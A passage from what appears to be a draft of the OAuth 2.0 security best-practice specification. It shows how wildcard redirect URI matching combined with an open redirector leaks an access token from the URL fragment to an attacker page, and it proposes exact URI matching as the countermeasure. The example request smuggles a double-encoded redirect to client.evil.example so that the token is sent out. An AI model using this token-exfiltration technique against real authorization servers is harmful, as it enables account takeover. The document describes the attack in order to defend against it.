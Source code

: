     GET /authorize?response_type=token&state=9ad67f13
        &client_id=s6BhdRkqt3
        &redirect_uri=https%3A%2F%2Fclient.somesite.example
         %2Fcb%26redirect_to%253Dhttps%253A%252F
         %252Fclient.evil.example%252Fcb HTTP/1.1
    Host: server.somesite.example
        
Now, since the redirect URI matches the registered pattern, the
authorization server allows the request and sends the resulting access
token with a 303 redirect (some response parameters are omitted for
better readability)

    HTTP/1.1 303 See Other
    Location: https://client.somesite.example/cb?
              redirect_to%3Dhttps%3A%2F%2Fclient.evil.example%2Fcb
              #access_token=2YotnFZFEjr1zCsicMWpAA&...
     
At example.com, the request arrives at the open redirector. It will
read the redirect parameter and will issue an HTTP 303 Location header
redirect to the URL `https://client.evil.example/cb`.
  
    HTTP/1.1 303 See Other
    Location: https://client.evil.example/cb
        
Since the redirector at client.somesite.example does not include a
fragment in the Location header, the user agent will re-attach the
original fragment `#access_token=2YotnFZFEjr1zCsicMWpAA&amp;...` to
the URL and will navigate to the following URL:
    
    https://client.evil.example/cb#access_token=2YotnFZFEjr1z...
  
The attacker's page at `client.evil.example` can now access the
fragment and obtain the access token.
    
   
### Proposed Countermeasures
   
The complexity of implementing and managing pattern matching correctly
obviously causes security issues. This document therefore proposes to
simplify the required logic and configuration by using exact redirect
URI matching only. This means the authorization server must compare
the two URIs using simple string comparison as defined in [@!RFC3986],
Section 6.2.1.
   
Additional recommendations:

  * Servers on which callbacks are hosted must not expose open
    redirectors (see (#open_redirection)).
  * Clients MAY drop fragments via intermediary URLs with "fix
    fragments" (see [@fb_fragments]) to prevent the user agent from
    appending any unintended fragments.
  * Clients SHOULD use the authorization code response type instead of
    response types causing access token issuance at the authorization
    endpoint. This offers countermeasures against reuse of leaked
    credentials through the exchange process with the authorization
    server and token replay through certificate binding of the access
    tokens. 
   